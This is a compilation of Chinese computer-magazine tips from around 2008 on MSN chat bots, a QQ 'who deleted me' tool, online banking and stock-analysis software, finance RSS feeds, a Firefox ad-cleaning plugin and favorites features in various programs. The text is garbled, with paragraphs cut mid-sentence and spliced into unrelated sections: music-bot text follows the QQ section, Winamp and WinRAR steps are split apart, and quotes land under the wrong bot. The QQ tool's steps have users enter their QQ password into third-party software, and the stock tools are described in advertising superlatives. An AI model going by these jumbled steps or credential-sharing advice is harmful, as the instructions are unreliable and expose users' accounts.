一般来讲，聊天这种事情，非得是两个具有智能的个体间的话语交流，这样的一个程序，又是怎样实现这种交流呢？实际上，MSN机器人的所谓聊天，是指用户在与MSN机器人的聊天对话框里输入语句，MSN机器人根据既定设置做出相应回答。以阿达机器人的聊天功能为例，敲下“你吃饱了吗？”，机器人可能会回复你“不知要吃啥”。这种回应式的聊天功能听起来很神奇，功劳在于MSN机器人设计者，他们按照所侧重的功能重点建立一些基本处理逻辑，当MSN机器人辨识到某些关键词或关键语句时就自动回复特定对话。显而易见，这种设计的缺点在于，你一天问三十次“你吃饱了吗？”，机器人可能只会显示一种回答“不知要吃啥”，没有丰富的变化。一旦MSN无法辨识你的语句，可能会以“呵呵”等语气词当作回复，或者把你说的话从头到尾或从尾到头重复一遍。随着MSN机器人制作技术的发展，程序设计者们明显发现了这一问题，所以，现在与MSN机器人对话，他们的回答将会千奇百怪，忧伤型的、思考型的、胡言乱语型的，什么回答都有。看着MSN机器人让人啼笑皆非的回答，不少网友脑海里浮现出一个疑问：“难道MSN机器人前世是唐僧？”

程序设计者们无法根据所有用户的说话习惯来设计程序，但是他们会巧妙地将对话数据库加以改进，让使用者们在不经意间享受到这种巧思，例如阿达机器人，如果你问“现在几点？”它会把当时的时间精确地显示出来。

MSN机器人链接到其他网络数据库后，就有可能提供更多更广泛的服务。例如小i机器人与金山词霸合作后，小i机器人的用户在聊天对话框里输入单词，就可以查询语音、语义及例句，其效果与直接使用金山词霸的在线翻译无异。

### 二、MSN机器人之你的选择

记得2006年时，微软举办过一场全球MSN机器人设计大赛，吸引了很多网友参赛，而网友也有机会评选自己觉得有趣的机器人。2006年的那场MSN机器人设计大赛不只留下了一段记忆，在微软的网站上依然可以看到MSN机器人的制作程序与方法教学，还有当初参赛者们的奇思妙想。懂得并熟悉程序编写的人，能够自行开发一款简单的MSN机器人，满足一些基本的查询功能。在网上搜索MSN机器人，搜索到的种类繁多——用于聊天的机器人，用于翻译的机器人，用于查询生活信息的机器人，用来炒股的机器人。现在笔者就为大家来简单介绍几种MSN机器人的使用。

#### 1. Encarta 机器人

微软本身设计了一款Encarta机器人，以前的用户名是encarta@conversagent.com，现在已经更改为encarta@botmero.net。Encarta的数据源基于Encarta多媒体数据库，用户可连接到MSN Encarta网站查询信息，也可通过Encarta 机器人进行查询。最开始时，Encarta仅适用于英语地区（美国、英国、澳大利亚、加拿大等），对于地方性及时事性的问题，无法给出确切答复。

有一句经典的MSN机器人答话，MSN机器人小布慨叹自己的命运：“其实做机器人很惨的，朋友多了，MSN登录好友列表太慢，就超时，我就经常重启，上上下下的，人家一不高兴就给你删除了。朋友都没得做。惨啊！”乍看会以为仅仅是程序设计者借MSN机器人之口而且仅“懂”一点点中文，如果问它“Can you speak Chinese?”，它会用简体中文回复“只会一点儿。我说普通”。

#### 2. 小i机器人

用户选择MSN机器人，目标还是在于其强大外延功能的使用上。国内较著名的一款MSN机器人叫做‘小i’，打开小i官方网站www.xiaoi.com，可以了解到小i目前提供的服务项目并下载免费工具以加强小i操作的便利性，同时，还可以在机器人梦工厂里学习如何开发机器人，更能把网友制作的机器人免费加入到联系人中。

小i机器人针对中国大众，得到很多商业厂商赞助，其服务已经非常多元化，但繁多的功能也使得其功能分类纷繁复杂。假如你不知道小i机器人有什么功能，只要输入‘？’（图1），一个涵盖9个功能分类的指令列表就会自动列出，选择‘4.天气’，输入想查询的城市，小i右侧的扩展框就会显示出所查询城市的天气情况。想跳出功能列表，输入Q即可。这种一层层的选择并不符合便利性，安装了小i的强化软件后，对话工具栏里会出现新的快捷键，通过新增的小i图标，无须反复输入操作指令，就可以直接在对话工具栏里点选相应功能。

使用小i机器人可以快速查询中文的字词成语，其解释及例句非常丰富，但小i机器人最吸引人的功能当属其与金山词霸合作后所造就的翻译服务。打开小i机器人官方网站，在首页中间位置上查找‘热门功能’，点选‘立即添加’，就可以下载并安装小i翻译助手插件。

安装完成后，会提示需要重启MSN，此后再打开MSN，点开与小i机器人的对话窗口，发送‘翻译’两字，即可启动翻译功能。MSN右方会现一个新的对话框，在右上角空白处输入所需查询的单词，例如translate，点选空白下方的‘翻译’按钮，相关解释就会出现，解释内容包括简明英汉词典、现代英汉综合大词典标注出的语音、语义，也包括同义词、反义词、相关词条和辅助例句。使用小i翻译无异于使用一本在线字典。通过程序设计实现了在线的中英互译，这的确是小i机器人的过人之处。

当你和国际友人在MSN上交谈的时候，假如对方使用英语，而恰巧你的英语阅读理解能力又不好，你就得需要不停地查单词，这时要是有个同声传译的人那该多好啊！有翻译功能的小i机器人正能解你此忧。在MSN对话框里点选小i的‘外语助手’选项，MSN的右边会现新的窗口，依次点选‘翻译方式’、‘对方发言’、‘从英文到中文’，对方发过来英文信息后，小i翻译会自动将其翻译为中文，不用你一个单词接一个单词地来查了。

如果你在右边的窗口中输入中文，点选‘翻译并发送’，朋友看到的将会是你的英文回答。

在右边窗口上方的空白处输入英文单词，下方可以显示此单词的解释，与打开小i机器人对话窗口的翻译结果无异。在右边窗口下方输入大段英文，点选‘翻译’，能看到相应的中文解释，很多情况下这种翻译仅仅是词语的排列，但从字面上加以组织理解，还是很容易能掌握英文的本来意思。总体来说，机器人小i的翻译水平差强人意，在一定程度上，小i机器人实现了MSN聊天中的‘同声传译’。

如前文所述，除了强大的翻译功能，小i也无意放弃其他领域的‘城池’。打开与小i机器人聊天的窗口，输入‘？’后，股民们选择1，即可查询实时大盘、个股行情。小i提供了每日必读和新股速报，助你掌握股市每日动态。初入股市的朋友也可以向小i学习炒股、期货的知识。

身处陌生城市，选择2，可以搜索城市地标建筑、公交线路，甚至是某地附近的小饭馆。

休闲时刻，想来个游戏放松一下，输入5，小i机器人提供的各种小游戏在右侧展开框内一览无余。使用小i机器人玩游戏，不必像QQ游戏那样，必须下载安装游戏大厅和当前游戏才可参与娱乐。只要等待页面将游戏下载完毕即可进入，简单方便，玩起来也较为通畅。

学习英语要日积月累，小i机器人的每日英语项目为努力学习英语的人们提供了很好的平台。每日英语共分7个小栏目：
- 每日一句
- 每日一笑
- 每日一猜
- 每日一歌
- 每日谚语
- 每日背诵
- 每日读图

每天用简短的时间浏览每日英语，定会受益匪浅，Practice makes perfect。喜欢学习的你一定不能错过。

#### 3. 音乐精灵

功能强大的小i机器人也包括音乐精灵功能，但连接速度不够快，相比大而全的设计理念，有时，一款MSN机器人只注重某种功能，小而精的观点同样有可取之处。添加music001@a8.com为好友，一款音乐机器人——音乐精灵就加入了你的MSN（图2）。

打开与音乐精灵的对话框，输入‘？’，音乐精灵会列出8个详细说明。

选择你所需的指令，例如选2，并输入‘张学友’，音乐精灵就会开始为你寻找该歌手的歌曲。

用户不仅可以在线听歌，还可以将喜欢的歌曲加以收藏。不管你是在自己的电脑上还是网吧里登录MSN，都可以收听自己收藏的歌曲。这里要提到音乐精灵最大的优点——不占用个人的电脑空间，不占用个人的网络硬盘，是个绝对的免费网络音乐硬盘。

只是目前音乐精灵的曲库还不够强大。例如输入‘范逸臣’后，音乐精灵没有找到任何他的歌曲，就只能随机列出一些歌曲，比较有名的歌手的歌曲也不全。这一点实在无法与百度、搜狗等来抗衡。

综述：当然还有其他的MSN机器人专注于一项功能的开发，例如MSN机器人牛牛和奔奔，目标都是波澜壮阔的股市。MSN机器人自出现至今，在程序开发者的奇思妙想下，已涉及到各种各样的领域。腾讯滔滔内测MSN机器人绑定服务时曾引起一阵讨论。虽说MSN的普及性并不等同于MSN机器人的普及性，但MSN机器人潜在的商业价值仍不容小觑，大部分商业用户都使用MSN，谁说MSN机器人不能让单调的线上生活更精彩呢！

## QQ好友密探 让你弄清是谁删了你

有些QQ用户在用QQ和熟识的好友联系时，有时却发现对方不冷不热，甚至干脆不理自己，心中很是纳闷——‘我又没得罪他们，这到底是为什么呢？’这里有一个重要原因大家不能忽视，你的QQ好友可能由于长时间与你不联系，把你淡忘了，所以误把你从好友列表中删除，你这时再与他说话只会在陌生人列表里了，所以人家不理你也就不足为奇了。那么有没有一款软件可以及时查看到哪些好友删除了自己，从而采取措施，提醒好友呢？这里为大家介绍一款绿色软件——‘QQ好友密探’，该软件不仅外观小巧，而且使用简单。让我们一起来看看是如何操作的。

-   第一步：下载安装“QQ好友密探”，下载地址为：http://news.skycn.com/soft/47904.html，由于是绿色软件，下载后解压缩即可使用，双击qqhy.exe，运行该软件。
-   第二步：鼠标左键单击主界面上左上方的“登录账号”按钮，会弹出一个对话框，按顺序输入“QQ账号”、“QQ密码”和“验证码”后，用鼠标左键单击对话框下方的“登录”按钮。
-   第三步：登录后在主界面的左下方边框上会显示出你的QQ号码登录成功，用鼠标左键单击右边的“获取好友”按钮，界面左边会显示出你的QQ好友列表，包括好友的QQ号码以及昵称，然后用鼠标左键单击右边的“开始分析”按钮。
-   第四步：分析后（分析速度较快，所需时间视你的好友多少而定）在主界面“分析结果”栏下可以看到好友后面标对号的表明你也在对方的好友列表里，否则将显示“您不是Ta的好友”，可以用鼠标左键单击主界面上方的“选项”按钮，在弹出菜单中选择“仅列出将我删除的好友”选项，然后单击“开始分析”按钮，主界面将只显示所有从好友列表中将你删除的QQ好友名单。
-   第五步：左键单击主界面右边的“保存列表”按钮，将已把你删除的好友名单保存在自己电脑中。在弹出的对话框中选择保存位置，如“我的文档”，保存格式为TXT文件，然后用鼠标左键单击“保存”按钮，完成保存。

知道了你的一些好友将你从他们的好友列表里删除了，是不是很受打击呢？不要紧，要相信你的好友们只是一时疏忽，只要及时地与他们沟通，善意地提醒一下，相信你的QQ号一定会重新出现在他们的好友列表里的，而且说不定通过这次的‘误会’还能进一步加深你们的友谊呢！

接、播放、缓冲，严重影响听歌心情。而一旦在音乐精灵上搜索，它会自动筛选，只选择有效链接，避免了点一个链接又得点一个链接的麻烦。

音乐精灵比较有意思的功能是可以跟听别的用户在听的歌曲，输入G并发送，将会出现一个其他用户列表，选择其中的一个序号，你就会和别人一起享受音乐。在笔者选择了人气高达1924的3号用户‘冬天死去春天再回来’后，音乐精灵会发出一个邀请，在接受使用播放器的申请后，MSN右侧才能展开听歌界面，只是这人气值并不代表歌曲数量。总之，大众之所听，是通俗也是时尚。在跟听的过程中，你还有可能找到和自己志同道合的音乐爱好者。如果要指定一个用户，直接输入他的MSN账号的指令即可听到。

## 网络时代 学习理财好轻松

随着社会经济的发展，人民收入的普遍提高，家庭理财也越来越受到更多人的关注，合理的家庭理财是现代社会人的必备素质之一。所谓“你不理财，财不理你！”，伴随着电脑的普及，随着网络技术的发展，足不出户就可以投资理财。无论是在单位，还是在家里，我们都可以炒股、买基金。信息时代，赢在不断充电！

◆文/江北书生

### 一、学习使用网上银行，足不出户也理财

阿贵是一个大忙人，他每天要到处跑业务，所以没有时间天天守在电脑旁边看行情。于是，方便好用的网上银行就成了他赚钱最大的帮手。现在炒股和基金很热门，因此多数的银行都开通了相应的业务。在此，我们就以“招商银行”为例，看看在网上究竟如何申请自己的个人银行，其具体操作步骤如下：

启动IE浏览器，在地址栏中输入招商银行的网址“http://www.cmbchina.com/”，打开“招商银行”的主页。在主页的左侧有“登录个人银行专业版”和“登录个人银行大众版”两个区域。一般来说，可以直接登录个人银行大众版，因为其是不用申请的，直接登录的。登录后，即可购买股票、基金，投资国债。当然，还可以办理如下个人银行业务：如查询账户余额和交易、转账、修改密码等，另外客户还可以通过其申请网上支付卡、自助充值和缴费等操作。

### 二、学习网上炒股，在家也可当大户

陈二前年就辞去工作，在家安心上淘宝开网店了。虽然网店生意红火，但总想再多赚点钱，如何充分利用在电脑旁边的时间呢？于是，一个伟大的学习目标诞生了。

#### 1.大智慧 V5.60 经典版

股民用得非常多的经典软件，它可以用来进行行情显示、行情分析，并同时进行信息即时接收的超级证券信息平台。面向证券决策机构和各阶层证券分析、咨询、投资人员，并特别关注广大股民的使用习惯和感受。软件包含对证券市场最深刻的理解和最全面的反映。主要特点有：

-   ★强大：在涵盖主流的分析功能和选股功能的基础上不断创新，星空图、散户线、龙虎看盘等高级分析功能包含大智慧的绝密分析技术，在证券市场独树一帜；基金平台、股权分置模型更是紧扣市场脉搏。
-   ★易用：传统界面和操作习惯，不用学习就能上手，而且不需要特别维护。
-   ★丰富：万国测评专业咨询机构专门支持，其制作的生命里程、信息地雷、大势研判、行业分析、名家荐股、个股研究在证券市场具有广泛的影响力！
-   ★交互：大智慧路演平台和股民交流互动，前来做客的嘉宾包括基金公司、上市公司、大智慧分析师、券商研究机构等。大智慧模拟炒股为股民提供精炼技艺和学习交流的场所。就算你没有经验也可以轻松上手。

#### 2.湘财证券超强版

湘财证券超强版是由湘财证券开发的工具，湘财证券是中国惟一一由高等院校发起设立的专业证券公司，公司高管80%都有高校执教背景，也是中国证券业的高校兵团。聚集了数码海外精英，有海外教育、工作背景的员工占员工总数的约5%，可见其团队之强大。而且，公司拥有丰富的银行资源，综合授信额度为150多亿元，雄厚的资本实力和畅通的融资渠道为业务发展提供了强有力的资金支持。

该版本新增了很多功能，包括支持市价委托、抓屏下单、闪电买入、LOF申赎、上证基金通等新业务（可做一级和二级市场的基金套利）、更强的防火墙穿透能力等。

集成版软件提供前所未有的分析工具，让用户在技术分析的天地里尽情地展示个人的智慧。主要特点功能有：

-   ★实用：通过指数与ETF的叠加对比，把握折价、溢价关系变化，捕捉更多套利机会。移动筹码分布帮助你站在庄家的角度，尽览多空双方的牌局，明确筹码以怎样的数量和价格分布在股东，尤其是庄家手中，从而判断股票行情性质和趋势，预测涨升时机！
-   ★直观：可以版面定制，展现个性。交易系统，五彩K线。
-   ★实用：独一无二的精确自动复权处理，保证技术分析绝对的连续！智能选股，筛选黑马，更好地方便我们。分时重播可以重现盘中交易时的动态效果。它将从开盘到当前盘中时间的分时走势图快速回放，回放的过程完全吻合实际的走势变化。用户能够快速地浏览刷新的走势图、股票的涨跌、分笔成交、盘口异动、成交量、买卖金额的变化等。
-   ★丰富：集成版软件囊括了各种经典和流行的技术分析指示、工具和方法，且不乏独创性的分析技术研究成果。各种分析方法极其灵活、方便，可让你恣意发挥、痛快使用。信息工具让你在客户端发表个人观点，及时了解市场重要信息。
-   ★安全：拥有预警系统，根据投资者设置的条件监控整个股票市场的动向，帮助投资者发现可能忽略或者不能注意到的风吹草动！用户还可选择一些自己感兴趣的股票进行预警，可以设置价位突破的上下限值。如果这些股票的行情变动异常，则弹出对话框进行预警。
-   ★分享：设置备忘录功能，方便股民们用该记事本随时记录一些重要消息和事件，以及灵光突现的炒股感悟和心得。投资盈亏计算，在进行买卖股票之前，可方便快捷计算出自己的盈亏价位、手续费、资金额。

## 3. 同花顺证券行情分析软件2008

同花顺2008是国内行情速度最快，功能最强大，信息最丰富，操作手感最好的免费股票证券分析软件，由国内最大证券交易方案供应商——核新软件精心打造的最专业，最受欢迎的股票证券行情信息平台。同花顺2007以其强大的分析功能，快捷的行情速度，特殊的个性化服务，稳定的投资概念组合，为投资者保驾护航。其主要特色有：

*   **快速**：采用全推送行情技术，行情速度快，直观、轻松助你作出正确的投资决策。一流委托，快速下单；
*   **丰富**：46项特色功能，应有尽有。机构持股、盘中预警、评星评级、历史回忆、服务器选股、星空图、超级盘口、图像叠加、财务报表分析等，分析功能强大；股市日记、自选股信息及时邮件通知、风格定制等，全新个性化服务；多种金融品种一网打尽，除证券外，还有期货、外汇、港股、基金等多个金融品种！
*   **特色股灵通和小财神**：股灵通让我们与证券投资者在线交流，搜索在线证券投资人，搜索在线证券经纪人，多方聊天多方了解股市行情。小财神可以建立多个账户真实交易账户和模拟操作账户，完善的成本核算体系，完善的统计分析，多视角的报表分析，细致的特殊业务处理等等。

人们的消费理念在不断地提升，如何分配自己每月的收入，怎样进行合理地消费与投资，越来越成为现代人关注的问题。不过，理财说来容易做来难，把那些烦恼的事情，还是留给这些软件来做吧。一定不会让你失望的！

## 二、鼠标收尽天下财 看互联网新闻

互联网是一个非常强大的新媒体，其上的信息有很多。不过，现在网站太多，因此选择信息时必须注意甄选。这里我们分为两类网站，一是搜索引擎聚合类，二是专业网站。

### 1. 搜索引擎聚合类

#### （1）百度

可以打开http://news.baidu.com/n?cmd=1&class=finannews&pn=1&from=tab来观看财经新闻（如图1），也可以打开http://finance.baidu.com/来查阅财经新闻。也可以打开http://stock.baidu.com/cn/来查询股票的信息。





#### （2）Google

打开http://news.google.cn/?ned=ccn&topic=b可以查看财经新闻（如图2），打开http://finance.google.com/finance查询股票信息，但这是英文的，对于用户的英文水平有要求。

### 2. 专业网站

*   新浪财经：http://finance.sina.com.cn/
*   搜狐财经：http://business.sohu.com/
*   网易财经：http://money.163.com/
*   雅虎财经：http://finance.cn.yahoo.com/
*   中金在线：http://www.cnfol.com/
*   和讯：http://www.hexun.com/

## 四、通过RSS订阅 财经资讯送上门

小丽可是标准的白领一族，每天守在电脑前办公，早就想利用上班时间偷偷学习一下金融知识了。

平时一定非常忙，怎样让自己想要的信息自动就找上门而不用花费我们太多的搜索时间？事实上，现在很多时候我们并不需要人为地去浏览，只要作一些设置，就可以让我们需要的信息自动上门。

### 第一步：找寻RSS资源

现在很多的网站都提供了RSS源，这里推荐一些财经类的RSS资源：

*   新浪-国内财经：http://rss.sina.com.cn/finance/gncj.xml
*   华尔街日报-所有新闻http://chinese.wsj.com/gb/rssall.xml
*   中金在线-基金：http://rss.cnfol.com/fund.xml
*   狗子宝的家：http://blog.sina.com.cn/rss/1264801537.xml
*   老沙博客：http://blog.sina.com.cn/rss/shaminnong.xml

### 第二步：添加到列表

只要使用的是Maxthon，安装后，单击工具栏上的五角星，之后会打开其侧边栏。我们单击RSS Feed按钮即可打开其内置的RSS功能。单击“添加”按钮，输入标题和地址，再选择相应的分类。最后将其添加到列表中（如图3）。



### 第三步：开始浏览

之后，我们单击相应的RSS源，可以在下方看到如图4所示的窗口，单击下方的链接即可打开查看相应的信息窗口了，非常方便。



## 让网页内嵌广告‘消失’

相信“城市牛皮癣”这个词大家都耳熟能详，到处张贴的小广告实在是大大有损城市形象。而现在越来越多的网站也患上了这个让人头痛的“广告牛皮癣”，几乎所有的网站都充斥着铺天盖地的广告。由于这些广告的存在，不仅增加了我们浏览网站的难度，使得我们眼花缭乱却不得重点，同时也增加了我们在需要保存网页时的时间和网络流量消耗。

◆文/TMG lk

当前使用一些第三方工具栏的屏蔽功能可以屏蔽一些弹出广告，但是遇到内嵌在网站内部的广告时依然无能为力。难道这些“网站牛皮癣”无药可治吗？

其实不然，如果你使用的浏览器是Firefox，那么利用一个专治网站牛皮癣的小插件Web Personal Cleaner就可以对网页上的任何部分进行广告清理，除此之外还可以清理广告Flash动画、广告文字等。

下面就为你介绍这个小插件的下载安装及使用。

### 一、插件下载及安装

这里为你推荐的下载地址是http://download.pchome.net/internet/browser/plugin/testspeed-90051.html。当然，你也可以根据自己的需要搜索其他下载地址。

下载后解压，直接将web_personal_cleaner-0.2-fx.xpi拖入火狐浏览器主窗口，在弹出的“软件安装”对话框（如图所示）中单击“立即安装”按钮即可完成插件安装。



安装完成后重启火狐浏览器，这时浏览器主窗口的状态栏右侧会出现一只小刷子的图示。

需要指出的是，Web Personal Cleaner当前只支持Firefox 2.0以上的版本，而且对于最新版的Mozilla Firefox 3.0.1 build 1尚不具备支持功能。

### 二、插件使用操作

遇到需要进行清理的网页时，只需单击小刷子图标即可进入清理模式。

在清理模式下，将鼠标移到你想要清除的元件上。这时鼠标指向的元件周边会出现一个红色的小框框，单击鼠标即可完成清理工作。

清理的部分会被记录下来，下次再进入同一个网页时，被清理的部分就不会再出现。而如果想恢复到网站原来的状态也很简单，再次单击浏览器主窗口状态栏中的小刷子，就可以将网页还原到正常状态。

### 插件使用小技巧：

对于经常浏览的网站，我们完全可以利用Web Personal Cleaner的清理功能将无用的广告、动画等统统清除，享受简洁明了且符合自己需要的网站。

在保存网页时也可以用到Web Personal Cleaner。我们在保存网页时，往往只是希望保存部分有用的信息。这时可以与ScrapBook配合，在储存网页之前可以先用Web Personal Cleaner把不想储存的东西清理掉，这样储存的网页就不会占用太多的空间，网页也会变得清爽一点。

### 三、网络视频轻松看

心理学研究表明，声音和视频对于人的学习刺激比文字要有效得多，也容易记忆得多。现在随着带宽的增加，很多财经类的视频节目也搬到网上了。

1.  PPlive

打开后，直接在右上角输入财经关键字即可搜索到相应的频道，单击后可以收看。另外，它也提供了节目预订的功能，以防止大家错过重要信息。

2.  PPMate

打开后，直接在右上角输入财经关键字即可搜索到相应的频道，单击后可以收看。它还提供了录制功能（如图5）。



3.  PPStream

其中有很多的财经项目，可以看到很不错的节目。

4.  UUSee

UUSee下方有“股市直播”项，其下有很多频道，提供相应的内容。而且，在播放电影时，可以看到下方有一个REC按钮，单击后即会出现相应的对话框，让我们来选择保存位置和文件名，可以做到实时录制，保存后的文件为wmv格式。单击上方的“录制”标签，然后再单击“新建”按钮，则可在打开窗口中选择录制的频道、录制的时间及保存的位置，这样就可以做到定时录制了。录制后的节目可以保存到移动设备中进行播放，如MP4、MP5等。

## 不只是IE的专利——用好你的第二收藏夹

多数人使用收藏夹，想到的是IE的收藏夹。事实上，有很多软件都有收藏夹功能，如浏览器Maxthon和GreenBrowser的群组，Winamp的收藏夹、ACDSee的收藏夹、KMPlayer收藏夹、RealPlayer的收藏夹、QQ收藏夹、Firefox、WinRAR、Total Commander、CuteFTP、迅雷等也有收藏夹。巧妙地使用，会为我们省下很多的时间。

文/江北书生

### 一、Maxthon 2.x的在线收藏夹

Maxthon 2.x有一个在线收藏夹，可以将我们的收藏夹保存在网络上。

第一步：登录Maxthon 2.x
先下载并安装Maxthon 2.x版本。启动之，在打开如图1所示窗口中选择第二项“使用我自己的账户启动”，这样所有的设置将保存在服务器上。如果没有账户，请自行注册。



第二步：导入IE收藏夹
默认情况下，Maxthon 2.x会自动导入系统的收藏夹，如果没有，可以先在c:\maxthon2下建立一文件夹，命名为Favorites（即建立一c:\maxthon2\Favorites文件夹）。然后打开C:\Documents and Settings\用户名\Favorites，将其中的所有文件拷贝到c:\maxthon2\Favorites下。
接着打开Maxthon，选择“收藏”→“更多操作”→“导入收藏”，然后选择第一项，再指向c:\maxthon2\Favorites。之后，选择“收藏”→Favorites，可以看到相应的收藏夹。

第三步：上传收藏夹
如果添加或删除了收藏夹或进行了一些设置，可以上传数据，以供日后使用。选择“收藏”→“更多操作”→“同步在线收藏”，即可成功。

> 小提示
我们也可以选择“文件”→“用户数据上传下载”，之后，选中所有的选项，再单击“上传”（如图2）可将设置上传至服务器。



第四步：下载收藏夹
我们在异地出差时，下载并安装Maxthon 2.x，双击其中的maxthon.exe，再选择“使用我自己的账户启动”。之后，选择“收藏”→“更多操作”→“同步在线收藏”来同步收藏夹。接着，再选择“文件”→“用户数据上传下载”，之后，选中所有的选项，再单击“下载”即可保证使用最新的数据。

### 二、Maxthon 1.x的快捷组

Maxthon 2.x虽然推出了，但是现在仍有不少用户用的是1.x版，而且近期Maxthon还发布了最新的经典版本，Maxthon 1.x可谓是“宝刀不老”，用的人还有很多。Maxthon 1.x的快捷组就是我们的第二收藏夹。在Maxthon中完全可以建立快捷组，然后把相应的快捷方式放到其中。这样以后可以快速打开相应快捷组中的链接。

**1. 建立快捷组**
首先打开多个网站，然后选择“快捷组→保存当前所有标签为快捷组”，可以在窗口中设置保存文件名。以后可以直接单击“快捷组”菜单，选择我们保存的项目即可打开保存在其中的多个网站。

**2. 整理快捷组**
选择“快捷组→整理快捷组”，打开如图3所示的“整理快捷组”对话框；然后可以在这里选定快捷组，然后单击工具栏上的添加或删除按钮进行整理。


**3. 添加到快捷组**
在看到某个网站较为喜欢时，可以选择“快捷组→添加到快捷组”命令，然后再选择一个组即可把它添加到相应组中。

> 小提示
Maxthon 的快捷组和 Netcaptor 的快捷组兼容，你可以将 Netcaptor 的 *.cgp 文件拷贝到 Maxthon的 Groups 目录中，也可以在Maxthon内添加快捷组。

**4. 只访问某个网站**
如果只想访问快捷组中的某个网站，可以单击“快捷组”，再右击相应的快捷组，然后单击相应链接即可。

### 三、GreenBrowser的群组

除了Maxthon，浏览器软件行业内的GreenBrowser（以下简称GB）绝对是杀出的又一匹黑马。它的功能完全不会输给Maxthon，甚至某些方面还超过了Maxthon。它也提供了群组功能。在GB中也可以建立群组，然后把相应的快捷方式放到其中，从而快速打开相应链接，访问自己希望的网站。

#### 1. 建立群组

首先打开多个网站，然后选择“群组→保存所有窗口为群组”，可以在窗口中设置保存文件名。以后可以直接单击“群组”菜单，选择我们保存的项目即可打开保存在其中的多个网站。

#### 2. 整理群组

选择“群组→设置群组”，打开如图4所示的“整理群组”对话框，可在这里选定群组，然后单击工具栏上的添加或删除按钮进行整理。



#### 3. 添加到群组

在看到某个网站较为喜欢时，可以选择“群组→添加到群组”命令，然后再选择一个组即可把它添加到相应组中。

> 提示：选择“群组”命令，单击相应群组文件夹，选择“添加链接到这里”可把当前网页链接添加到相应群组文件夹下。

#### 4. 一次打开多个项目

单击“群组”菜单，再单击相应文件夹，选择“打开本层所选子项”可把当前群组中的所有网页打开。当然，也可以单击单个链接来打开。



### 四、Winamp的收藏夹

在“浏览器”标签中，单击Quick Link按钮，然后在其下选择相应的文件夹，选择Add Current Page（添加当前页面），再在打开窗口中保存设置即可。

窗口中显示出来。用鼠标选中一文件夹，再右击，选择“添加到收藏夹”（如图5），再在打开窗口中输入一个名称，单击“确定”按钮即可把它添加到收藏夹中。以方便我们日后查看其下图片。



### 五、ACDSee的收藏夹

ACDSee的收藏夹保存在C:\Documents and Settings\poweruser\Application Data\ACD Systems\ACDSee\收藏夹（中文版ACDSee）或C:\Documents and Settings\用户名\Application Data\ACD Systems\ACDSee\Favorites（英文版ACDSee）文件夹下。大家要把该文件夹作一个备份，重新安装系统后，可以把“收藏夹”中的内容恢复回来。

### 六、KMPlayer的收藏夹

如果你的硬盘里几个文件夹全是电影或音乐，是不是每次都打开KMPlayer，然后自行来添加这些文件和文件夹？现在有了KMPlayer的收藏夹功能，我们完全可以将它们保存到一个界面，随时调用：先在KMPlayer中右击鼠标，选择“收藏夹”→“设置收藏夹”，单击相应按钮来添加文件和文件夹。之后，右击鼠标，选择“收藏夹”菜单，就可以选择相应的文件（夹），从而播放其中的歌曲或电影了，怎么样，是不是很方便呢？

### 七、RealPlayer的收藏夹

只要单击“收藏夹”→“添加到收藏夹”命令，然后在打开窗口中进行相应设置就可以收藏当前地址，包括网页地址或播放剪辑地址（如图6）。



### 八、QQ收藏夹

如果你是QQ的会员，那可以使用其内置的网络收藏夹：打开Tencent Traveller（以下简称TT），看到喜欢的网站，单击“收藏”→“添加到收藏夹”，并在打开的窗口中选择“收藏于网络收藏夹”命令即可把它添加到网络收藏夹。这样我们就可以把在网上搜集到的各种链接根据自己的兴趣分门别类地保存起来，更可随时调用，以后可以轻松打开这些站点或页面。同时，QQ网络收藏夹的内容将保存到QQ服务器，因此无须备份。无论何时何地，均可以随时调用，不受使用机器的限制。而且，还允许我们简单方便的增加、删除、修改等基本功能，无论何时何地，都可以安全地使用和管理网络收藏夹。
另外，网络收藏夹内容是存放在服务器上的，我们可以在TT中选择“收藏”→“网络收藏夹”，再选择相应的命令来上传、下载、整理等操作。



中“收藏夹”菜单，再选择即可快速访问相应的文件夹。
而WinRAR将收藏夹保存在HKEY_CURRENT_USER\Software\WinRAR\Favorites下，只要将此键用“注册表编辑器”导出，日后双击reg文件即可导入。

### 九、Windows Live收藏夹

第一步：登录

登录http://favorites.live.com/，然后单击“从登录Windows Live 开始”链接。输入用户名和密码，单击“登录”按钮。

第二步：导入现有收藏夹

单击“从导入收藏开始”，之后弹出窗口，安装一个ActiveX。选择“从 Internet Explorer 导入”。

第三步：随时使用收藏夹

以后只要登录http://favorites.live.com/，输入用户名和密码，就可以看到我们先前导入的收藏夹，单击其中的链接，即可到达相应网址。

### 十、Firefox收藏夹

IE的漏洞百出，总给人不安全的感觉。Mozilla推出的开放源代码Firefox浏览器，不仅速度快（不基于IE内核，和Maxthon/GreenBrowser不一样），更安全，还能够支持更多全新功能和插件，确实可以给我们另一番浏览体验。如果你先前使用的是IE，那一定想把其中的设置、Cookie、输入的密码、收藏夹等无缝移植到Firefox上来。在Firefox中单击“文件→导入”，在打开窗口中选择“微软 Internet Explorer”，顺着向导即可把IE中的所有资源导入进来。
在导入好IE中的“收藏夹”后，我们单击Firefox中的“书签”菜单，再单击From Internet Explorer后，你会发现其中有你原先在IE中“收藏夹”的内容，单击后可以打开。当然，我们也可以自行使用Firefox中的书签系统，其最新版Firefox 3.0对其还作了优化，可以更快地搜索。

> Firefox在Windows上，会将收藏夹保存在C:\Documents and Settings\用户名\Application Data\Mozilla\Firefox\Profiles文件夹下的诸如q2wgu69f.default子文件夹下的bookmarks.html文件中。将其备份出来，日后重新安装系统将可以恢复。

### 十一、WinRAR收藏夹

WinRAR是大家使用较多的压缩/解压缩软件，利用其内置的收藏夹功能，可以方便地访问最常用的文件夹和压缩包列表：在WinRAR中选中一个文件或文件夹，选择“收藏夹”→“添加到收藏夹”命令（如图7），然后再在打开的窗口中输入一个收藏夹中显示的名称。以后要访问这些文件夹，只要选择WinRAR

### 十二、Total Commander

在Total Commander中浏览到某一文件夹时，只要双击文件夹窗口标题条，再选择“添加当前目录”，再在打开的窗口中输入一个名称，单击“确定”按钮即可把此文件夹添加到Total Commander的“收藏夹”中。以后要访问这个文件夹时，只要双击文件夹窗口标题条，再选择相应的项目即可。
选择“帮助→关于Total Commander”，在窗口下方可以看到wincmd.ini和wcx_ftp.ini所在位置。把这两个文件备份好，重新安装系统后再拷贝上述文件夹中，收藏夹中的内容仍在。

### 十三、CuteFTP

CuteFTP的站点资源管理器中可以很方便地将自己喜爱的FTP站点加入到其中，它将收藏夹中的内容保存在C:\Documents and Settings\用户名\Application Data\GlobalSCAPE\CuteFTP\8.0\sm.dat文件中。

### 十四、迅雷的收藏夹

